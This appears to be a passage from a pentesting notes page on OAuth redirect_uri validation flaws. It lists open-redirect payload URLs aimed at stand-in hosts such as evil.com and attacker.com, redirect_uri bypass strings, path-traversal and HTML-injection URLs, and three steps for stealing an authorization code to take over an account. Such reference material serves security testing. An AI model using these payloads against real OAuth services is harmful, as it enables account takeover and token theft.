 ### Insufficient Redirect URI Validation

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption><p>Open Redirec in redirec_uri Leads to 1-Click ATO</p></figcaption></figure>

#### Exploits:

1. **Open Redirect**: Redirect sensitive data to an attacker-controlled server.
   * &#x20;`https://yourtweetreader.com/callback?redirectUrl=https://evil.com`
   *   `Redirec_uri` Bypasses

       ```
       - target.com.evil.com
       - //attacker.com
       - https://attacker.com\@target.com
       - https://attacker.com?@target.com
       - attacker.com%0d%0atarget.com
       - Open-Redirect/SSRF -> Bypass redirect_uri
       ```
2. **Path Traversal**: `https://yourtweetreader.com/callback/../redirect?url=https://evil.com`
3. **Weak Regexes**: `https://yourtweetreader.com.evil.com`
4. **HTML Injection**: `https://app.victim.com/login?redirectUrl=https://app.victim.com/dashboard</script><h1>test</h1>`
5. **XSS**: Reflecting redirect URL in response.

#### Steps:

1. Identify the `redirect_uri` parameter.
2. Construct an exploit URL to steal the authorization code.
3. Use the stolen code to complete the OAuth flow.

### SSRF via OpenID Dynamic Client Registration
